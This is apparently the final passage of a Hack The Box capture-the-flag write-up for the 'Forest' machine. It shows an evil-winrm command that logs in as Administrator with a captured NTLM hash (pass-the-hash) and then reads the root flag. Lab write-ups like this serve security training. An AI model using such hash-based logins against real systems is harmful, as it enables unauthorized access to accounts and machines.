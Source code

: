 We can now use evil-winrm to login to the box:

```
~/htb/boxes/OSCP-PREP/Forest ❯ evil-winrm -i htb.local -u Administrator -H '32693b11e6aa90eb43d32c72a07ceea6' 
*Evil-WinRM* PS C:\Users\Administrator\Documents>type C:\Users\Administrator\Desktop\root.txt
c3fc30f3513fcbdd6703da501b395cb1
```

That's the box! I hope you enjoyed it :)
